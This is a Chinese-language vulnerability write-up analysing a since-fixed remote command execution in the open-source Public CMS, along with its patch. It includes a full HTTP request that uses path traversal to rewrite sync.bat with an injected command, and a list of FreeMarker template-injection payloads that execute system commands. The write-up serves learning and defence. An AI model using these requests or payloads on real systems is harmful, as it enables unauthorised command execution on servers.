









# 奇安信攻防社区-某CMS的RCE漏洞分析&思路扩展（新手学习）

### 某CMS的RCE漏洞分析&思路扩展（新手学习）

Github上面一个开源的JAVA CMS系统( \[Public CMS\](https://github.com/sanluan/PublicCMS) )，该系统存在一处任意命令执行(漏洞现已修复)，记录下该漏洞的分析过程以及遇到类似的CMS系统我们还可以从哪些点进行漏洞挖掘。

## 0x00 漏洞前言

Github上面一个开源的JAVA CMS系统( [Public CMS](https://github.com/sanluan/PublicCMS) )，该系统存在一处任意命令执行(漏洞现已修复)，记录下该漏洞的分析过程以及遇到类似的CMS系统我们还可以从哪些点进行漏洞挖掘。

## 0x01 漏洞发现

搭建完系统后，登录admin系统管理员进入系统，发现有一个执行脚本的功能点，脚本可选择bat或sh(用于Windows和Linux两个操作系统上)：



点击执行获取数据包如下：

```php
POST /publiccms_war/admin/sysSite/execScript?navTabId=sysSite/script HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 72
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/publiccms_war/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=1173C94B74E22D7477C2BB54B5760C4F; PUBLICCMS_ADMIN=1_553ba132-1c5f-4218-bb35-f955109d8446
Connection: close

_csrf=553ba132-1c5f-4218-bb35-f955109d8446&command=sync.bat&parameters=1
```

0x02 漏洞分析

搜索URL路由(Controller)：


发现了这个方法，该方法有两个参数 `command` 和 `parameters` 分别为我们script脚本名和参数siteId：



跟进方法 `execute`，可以看到对脚本和参数的处理：



方法的大概处理逻辑为：首先会对脚本名进行判断，当传入脚本为`backupdb.bat`或`backupdb.sh`(用于数据库备份的脚本)时，加载数据库配置文件`databaseConfiFile`，从数据库配置文件中获取用户名、数据库名、密码这些属性，判断是否存在加密后的密码，然后解密密码，并将这些值分别作为元素存入 `cmdarray` 数组中；当不是这两个脚本时(也就是`sync.bat`或`sync.sh`)，先对参数进行处理，参数会进行 `PARAMETER_PATTERN` 正则表达式的匹配，即检查参数的合法性；

方法的后半部分是对文件的创建和命令执行的处理，在这里我们找到了 `Runtime.getRuntime().exec()` 方法：



方法的大概处理逻辑为：创建文件路径为dir(dir为上面定义的：`CMS_FILEPATH + /script`)+脚本名，然后判断文件是否存在，如果不存在获取输入流内容并复制到 `script` 文件中，将 `filepath` 插入 `cmdarray` 数组的开头，然后通过 `Runtime.getRuntime().exec()` 方法执行脚本的内容。

但这些脚本都是系统内置的脚本(无法直接利用)，之后发现系统提供了一个替换模板文本内容的功能点，我们可以利用这个功能点来修改脚本内容，将命令写入脚本中实现任意命令执行：


点击替换抓取数据包如下，参数 `word` 为查询的内容，`replace` 为替换的内容，`replaceList[0].path`为文件路径，还有一个 `replaceList[0].indexs` 索引标记(用于标记搜索的内容在文件中出现的次数&位置)：

```php
POST /publiccms_war/admin/cmsTemplate/replace?navTabId=cmsTemplate/list HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 226
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/publiccms_war/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PUBLICCMS_ADMIN=1_553ba132-1c5f-4218-bb35-f955109d8446; JSESSIONID=BA166C749709B8766689F349339FEA73; PUBLICCMS_ANALYTICS_ID=bf9f77eb-31db-4888-8d82-4b1e05fc7c39
Connection: close

_csrf=553ba132-1c5f-4218-bb35-f955109d8446&word=login&replace=1234&replaceList%5B0%5D.path=%2Fmember%2Flogin.html&replaceList%5B0%5D.indexs=0&replaceList%5B0%5D.indexs=1&replaceList%5B0%5D.indexs=2&replaceList%5B0%5D.indexs=3
```

搜索下这个路由，找到方法 `replace`，参数为传入的模板替换对象 `TemplateReplaceParameters`、查询的内容`word` 以及替换的内容 `replace`：



先看下 `TemplateReplaceParameters` 参数，它有一个列表属性 `repalceList` 是一个泛型列表：



其元素类型 `FileReplaceResult` 类，里面有两个属性path和indexs即为我们post数据传入的`replaceList[0].path`和`replaceList[0].indexs`：



回头再看下这个方法的处理逻辑：首先获取站点ID + `CommonConstants.SEPARATOR=\`构成对应的模板文件路径，然后调用 `replaceFileList` 方法，跟进这个方法可以看到参数为原始模板路径、传入的模板文件列表和要替换的文本内容，方法如下用于处理读文件内容->替换内容->重新写入文件：



查看文件后发现模板和脚本都在 `publiccms` 目录下，且路径为：

```php
\publiccms\template\site_id\xx\xx
\publiccms\script\sync.bat
```

整体跟下来发现未对替换的文件路径做限制，所以我们可以利用 `../../` 从当前目录穿越到脚本文件目录下，然后替换系统脚本文件内容。

## 0x02 漏洞复现

1、构造数据包修改脚本文件内容(这里演示在Windows系统上对bat脚本内容的替换操作)

```php
POST /publiccms_war/admin/cmsTemplate/replace?navTabId=cmsTemplate/list HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 226
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/publiccms_war/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PUBLICCMS_ADMIN=1_553ba132-1c5f-4218-bb35-f955109d8446; JSESSIONID=BA166C749709B8766689F349339FEA73; PUBLICCMS_ANALYTICS_ID=bf9f77eb-31db-4888-8d82-4b1e05fc7c39
Connection: close

_csrf=553ba132-1c5f-4218-bb35-f955109d8446&word=echo%20%22repo%20not%20config!%22&replace=echo%20%22repo%20not%20config!%22%20%26%20start%20calc&replaceList%5B0%5D.path=../../script/sync.bat&replaceList%5B0%5D.indexs=0
```

成功替换内容：


2、执行脚本，触发命令


## 0x03 漏洞修复

在处理文件路径中添加了方法 `getSafeFileName`：


该方法如下，对传入的 `..` 的路径做了置为空字符串的操作：



## 0x04 漏洞扩展

类似的cms系统还可以尝试下文件上传、模板注入等方法。

1、文件上传

-   修改文件上传路径，上传恶意脚本到执行系统脚本的目录下

> 这里需要注意系统是否存在类似于这个系统对路径安全的处理方法

-   修改脚本执行路径，执行脚本时将路径修改到用户目录下

> 这里需要注意执行脚本时系统对传入脚本的匹配方法

```java
//像这个cms系统使用了 ArrayUtils.contains 对象引用，传入的脚本名只能匹配系统的这四个脚本
String[] COMMANDS = { "sync.bat", "sync.sh", "backupdb.bat", "backupdb.sh" }
ArrayUtils.contains(COMMANDS, command.toLowerCase())

ArrayUtils.contains(COMMANDS, "sync.bat");         //true
ArrayUtils.contains(COMMANDS, "\\aaa\\sync.bat");  //false
```

2、模板注入

像这类提供了自定义模板编辑功能点的cms系统，可以看下系统引用的模板引擎如 `Thymeleaf`、`Freemarker`等，可能会存在模板注入(该系统使用的是 `Freemarker 2.3.32` 版本，我们这里整理了下该引擎历史版本可利用的POC)：

-   new()

```html
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("Calc") }
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","Calc").start()}
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")
```

但这个利用方法在 `2.3.17` 版本以后修复了，官方对这三个类的解析做了限制。

-   API

```html
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("Calc"")}
```

利用前提：当 `api_builtin_enabled` 为true时才可使用，而该配置在`2.3.22` 版本之后默认为false。

-   `2.3.30`以下版本

```html
<#assign classloader=<<object>>.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("whoami")}
```
